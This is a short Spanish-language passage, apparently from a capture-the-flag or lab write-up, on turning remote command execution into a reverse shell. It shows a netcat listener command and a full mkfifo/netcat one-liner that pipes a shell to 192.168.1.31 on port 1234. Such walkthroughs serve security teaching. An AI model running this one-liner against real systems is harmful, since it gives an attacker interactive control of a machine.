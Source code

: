 


Necesitamos una manera de conseguir una reverse shell, "sudo -l". Pero como tenemos ejecución remota de comandos, podemos intentar lanzarnos una `reverse shell`, por me dio de netcat.


- Ponemos a la escucha netcat
```
nc -nlvp 1234
```
<p align="center">
    <img src="../img/Pasted_image_20241101214532.png" width="500">
</p>


- En la ejecución remota de comandos podemos ejecutar el código:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.31 1234 >/tmp/f
```
